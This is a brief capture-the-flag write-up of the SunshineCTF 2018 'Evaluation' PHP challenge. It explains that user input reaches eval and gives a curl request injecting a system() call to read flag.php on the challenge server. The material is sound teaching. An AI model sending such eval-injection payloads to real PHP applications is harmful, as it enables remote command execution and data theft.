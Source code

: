 ```yaml
---
title: SunshineCTF - Evaluation Writeup
layout: post
date: '2018-04-10 08:00:00'
description: Writeup of Evaluation
image: https://i.imgur.com/1gRJwXK.png
tags:
- ctf
- writeup
author: Guilherme "k33r0k" Assmann
---
```

### SunshineCtf - Evaluation Writeup

`"Evaluation
Evaluate your life. How are you doing, and are you doing the best you can possibly do? Look deeper within yourself, beyond the obvious. Look at the source of it all.
Also, here's a PHP challenge."`

It was given us the following code:

![](https://i.imgur.com/1gRJwXK.png)

It's noticeable that the `eval` was vulnerable. It's very simple to get the shell, we can simply add a `system()` call to the request to get it included in the `eval`:

To get the shell I ran the following command to include the `system()` call:
`$ curl -d 'hello=system("cat flag.php")' -v "http://evaluation.web1.sunshinectf.org/"`

![](https://i.imgur.com/hiniyjD.png)
